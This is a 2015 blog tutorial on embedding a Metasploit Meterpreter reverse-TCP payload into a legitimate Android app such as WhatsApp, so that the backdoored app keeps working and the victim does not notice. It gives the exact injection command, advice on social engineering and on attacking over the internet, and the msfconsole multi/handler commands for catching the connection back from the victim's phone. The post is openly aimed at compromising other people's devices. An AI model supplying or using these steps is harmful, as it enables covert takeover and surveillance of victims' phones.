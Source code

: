 ```yaml
---
date: 'Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)'
title: Embed a Metasploit Payload in an Original .apk File | Part 1 — The Easy Way
tags:
  - android
  - hacking
  - metasploit
  - kali-linux
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track. 

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the _Meterpreter_, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means—usually involving Social Engineering—and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing—read, hacking. You should also install the latest version of _ApkTool_ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console —
```console
$ sudo apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of _ApkTool_, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a `WhatApp.apk` as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```console
$ ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used 192.168.0.104 as the Local IP address, i.e. your IP address and 4895 as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the `LPORT` can be set to any reasonable port no.

_NOTE_. If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the `LHOST` option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to `/root/original`.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an `<activity>` tag which contains both the texts `.MAIN` and `.LAUNCHER`. When you find that tag, look for the `android:name` attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get an .apk file in your root directory with the name `backdoored_WhatsApp.apk`. It will install and run just like the original app.

As for the listener, you should use `multi/handler` and set the corresponding options accordingly. Just run the following commands —

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-18-143255.png)


### Note

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits

I found the script from the comments section of a thread in _NullByte_, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to _timwr_ and _Jack64_.


